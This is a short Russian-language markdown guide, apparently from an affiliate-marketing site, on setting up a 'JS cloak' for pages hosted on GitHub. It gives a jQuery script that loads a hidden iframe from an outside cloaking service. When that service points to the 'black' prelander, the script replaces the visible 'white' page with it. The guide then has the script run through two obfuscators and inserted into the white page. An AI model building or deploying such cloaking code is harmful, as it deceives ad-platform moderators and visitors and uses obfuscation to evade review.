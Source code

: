 ```yaml
---
title: "Настройка JS клоаки"
date: 2019-10-25T17:31:01+03:00
draft: false
---
```


## Вводные

В корне гитхаба должно быть 3 файла:

- файл `w.html` - это белая страница
- файл `black.html` - это прокладка
- файл `blog.html` - это копия белой страницы с клоакой, на которую будет идти трафик

## Установка клоаки

1. Отредактировать код:
{{< highlight js >}}
$(function () {
    $('body').append('<iframe src="https://beta.dolphin.ru.com/magic/rukz.php?domain=ДОМЕН-GITHUB&path=ИМЯ-РЕПОЗИТОРИЯ"></iframe>');
    setTimeout(function () {
        var html = $('iframe').contents().find('html').html();
        var frameLocation = window.frames[0].location.href;
        if (frameLocation.search('black.html') != -1) {
            document.open();
            document.write(html);
            document.close();
        }
        $('iframe').remove();
    }, 1500);
});
{{< / highlight >}}
2. Прогнать код через <a href="https://obfuscator.io/" target="_blank">обфускатор1</a>
3. Проганать код через <a href="https://javascriptobfuscator.com/Javascript-Obfuscator.aspx" target="_blank">обфускатор2</a>
4. Создать файл `js/1.js` и вставить результат работы обфускатора в него
5. Вставить на странице `white.html` перед закрывающим `</body>` код:
{{< highlight html >}}
<script src="js/1.js"></script>
{{< / highlight >}}